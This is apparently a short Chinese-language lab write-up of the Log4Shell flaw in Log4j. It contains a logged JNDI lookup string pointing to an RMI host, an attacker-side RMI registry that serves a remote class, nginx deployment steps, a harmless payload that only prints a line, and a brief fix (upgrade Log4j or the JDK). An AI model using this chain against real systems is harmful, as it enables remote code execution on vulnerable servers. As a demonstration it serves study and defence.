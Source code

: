 <a name="Ay9qE"></a>
### 服务端日志生成
public static final Logger _LOGGER _= LogManager._getLogger_(log4jTest.class);<br />public static void main(String[] args) {

    //this is a login interface,<br />	//输出操作系统版本<br />    String userName = "${java:os}";<br />    _LOGGER_.error("show the system version: {}", userName);<br />	//hacker do something<br />    String password = "${jndi:rmi://192.168.4.126:1099/evil}";<br />    _LOGGER_.error("my password: {}", password);

} 


<a name="Qx4vB"></a>
### 黑客端
//hacker do something<br />public class EvilObj {<br />    static {<br />        System.out.println("I am a hacker, i am do something now");<br />    }<br />}

//registry hacker <br />public class RMIServer {<br />    public static void main(String[] args) {<br />        try{<br />            LocateRegistry.createRegistry(1099);<br />            Registry registry = LocateRegistry.getRegistry();

            System.out.println("hacker create registry on port 1099");

            Reference reference =new Reference("EvilObj", "EvilObj", "http://127.0.0.1:80/");<br />            ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);<br />            registry.bind("evil", referenceWrapper);<br />        }<br />        catch (Exception e){<br />            e.printStackTrace();<br />        }<br />    }<br />}


<a name="TQP6x"></a>
### 部署
启动nginx，将编译后EvilObj.class放入html文件夹（即默认配置的80端口目录，对应注册的80端口）


<a name="fXXvG"></a>
### 结果
在服务端执行了EvilObj的代码System.out.println("I am a hacker, i am do something now");

<a name="z1ORF"></a>
### 预防
升级最新log4j版本或者更换高等级jdk版本（jdk8u121）
